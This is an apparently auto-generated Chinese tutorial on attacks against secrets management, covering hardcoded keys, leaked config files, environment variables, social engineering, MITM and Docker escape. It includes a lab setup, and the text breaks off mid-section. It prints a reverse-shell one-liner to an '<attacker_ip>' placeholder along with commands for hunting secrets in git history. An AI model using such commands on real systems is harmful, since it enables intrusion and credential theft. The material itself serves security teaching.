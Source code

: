 # Secrets管理最佳实践的攻击技术

## 引言

在现代Web应用程序中，Secrets（如API密钥、数据库密码、访问令牌等）的安全管理至关重要。Secrets一旦泄露，攻击者便可以轻易地访问系统、数据和其他敏感信息。本文将深入探讨Secrets管理最佳实践的常见攻击手法、底层实现机制，以及如何防范这些攻击。我们还将提供详细的攻击步骤和实验环境搭建指南。

## 1. Secrets管理的攻击手法

### 1.1 硬编码Secrets

**技术原理解析**：开发人员常常将Secrets硬编码在源代码中，这是最常见的漏洞之一。攻击者通过代码审计或版本控制系统（如Git）可以轻易发现这些Secrets。

**攻击步骤**：
1. 获取源代码或版本库访问权限。
2. 搜索特定字符串（如“API_KEY”、“PASSWORD”等）以识别Secrets。
3. 使用获取的Secrets进行身份验证或访问敏感数据。

### 1.2 配置文件泄露

**技术原理解析**：许多应用程序将Secrets存储在配置文件中，这些文件如果未正确配置，可以被攻击者直接访问。

**攻击步骤**：
1. 通过Web服务器的错误配置或文件包含漏洞访问配置文件。
2. 提取其中的Secrets。
3. 利用这些Secrets进行进一步的攻击。

### 1.3 环境变量泄露

**技术原理解析**：开发者常常使用环境变量存储Secrets，但如果环境变量未被正确配置或在开发环境中暴露，攻击者可以通过不当手段获取这些变量。

**攻击步骤**：
1. 通过命令注入、反向Shell等手段获取环境变量。
2. 使用获得的Secrets进行攻击。

### 1.4 社会工程学攻击

**技术原理解析**：攻击者通过社交工程手段获取开发人员或系统管理员的信任，以获取Secrets。

**攻击步骤**：
1. 伪装成合法用户，向目标提出请求。
2. 利用心理操控使目标泄露Secrets。

### 1.5 中间人攻击（MITM）

**技术原理解析**：在网络传输过程中，攻击者可以拦截传输中的Secrets，尤其是在使用不安全的传输协议时。

**攻击步骤**：
1. 在网络中设置监听器。
2. 拦截并分析传输数据包，提取Secrets。

## 2. 变种和高级利用技巧

### 2.1 代码审计工具

使用自动化工具（如TruffleHog、GitLeaks）进行代码审计，可以快速识别硬编码的Secrets。

**命令示例**：
```bash
trufflehog --regex --entropy=True <repository_url>
```

### 2.2 反向Shell

通过反向Shell获取目标系统的环境变量。

**命令示例**（在目标机器上）：
```bash
bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1
```

### 2.3 利用Docker Secrets

如果Secrets存储在Docker容器中，攻击者可能利用容器逃逸技术获取Secrets。

**技术原理解析**：容器技术的隔离性并非绝对，利用特定的漏洞，攻击者可能获得宿主机的权限。

**攻击步骤**：
1. 利用容器中的漏洞，获取容器的根权限。
2. 访问Docker的API，提取Secrets。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建

#### 3.1.1 环境要求
- 操作系统：Linux或macOS
- Docker
- Git
- Python

#### 3.1.2 搭建步骤
1. **安装Docker**：
   ```bash
   sudo apt-get install docker-ce docker-ce-cli containerd.io
   ```
2. **克隆示例项目**：
   ```bash
   git clone https://github.com/example/repo.git
   cd repo
   ```
3. **创建Docker容器**：
   ```bash
   docker build -t secrets-demo .
   docker run -d -p 80:80 secrets-demo
   ```

### 3.2 攻击演练

#### 3.2.1 硬编码Secrets攻击
1. 使用Git查看历史记录：
   ```bash
   git log -p
   ```
2. 搜索Secrets：
   ```bash
   git grep "API_KEY"
   ```

#### 3.2.2 配置

---

*文档生成时间: 2025-03-13 21:32:57*
